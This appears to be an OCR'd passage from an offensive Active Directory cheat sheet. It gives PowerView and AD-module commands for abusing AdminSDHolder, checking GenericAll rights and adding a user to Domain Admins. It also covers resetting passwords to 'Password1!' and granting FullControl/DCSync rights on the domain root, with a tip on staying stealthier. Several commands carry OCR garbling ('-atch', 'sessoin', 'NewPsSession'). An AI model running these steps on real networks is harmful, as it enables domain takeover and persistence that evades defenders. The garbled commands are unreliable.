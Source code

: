 Do the propagtion:\
$sess = NewPsSession -computername dchostn.local\
Invoke-Command -filepath .\Invoke-SDPropagator.ps -sessoin $sess\
Enter-pssession -sesion $sess\
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

**Get ACL of an Object for a specific user**\
****. .\PowerView.ps1\
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDS | ?{$\_.IdentityReference -atch 'username'}\
\==> ActiveDirectoryRights: GenericAll => so you have full rights to domain

Using AD Module\
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=subdom,DC=dom,DC=local').Access | ?{$\_.IdentityReference -match 'username'}&#x20;

**Add Member to Domain Group**\
. .\PowerView\_dev.ps1\
Add-DomainGroupMember -identity 'domain admins' -members yourusername -verbose

Using AD Module\
Add-ADGroupMember -identity 'domain admins' -members yourusername -verbose

**ResetPassword using PowerView\_dev**\
Set-DomainUserPassword -identity yourusername -accountpassword (ConvertTo-SecureString "Password1!" -AsPlainText -Force) - Verbose\
\
Using AD Module\
Set-ADAccountPassword -Identity yourusername -newPassword (ConvertTo-SecureString "Password1!" -AsPlainText -Force) - Verbose

**Run SDpropgator to apply the AdminSDHolder on all the Protected Groups**\
****. .\Invoke-SDPropagator\
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

❗Remember to add your user to other protected groups to be stealthier

## 🔑ACL - Right Abuse / DCSync&#x20;

### Description

* ACL of the domain root itself to be modifed to provide rights like FullControl or "DCSync"
* Default logging for modifications on the domain object itself is enabled

### Requirement

* DA permissions required

### Tools

**Add FullControl rights to Domain Object**\
Add-ObjectAcl -TargetDistinguisedName 'DC=subodmain,DC=domain,DC=local' -PrincipalSamAccountName yourusername -Rights All -verbose

Using AD Module\
Set-ADACL -DistinguishedName 'DC=subodmain,DC=domain,DC=local' -principal yourusername -verbose
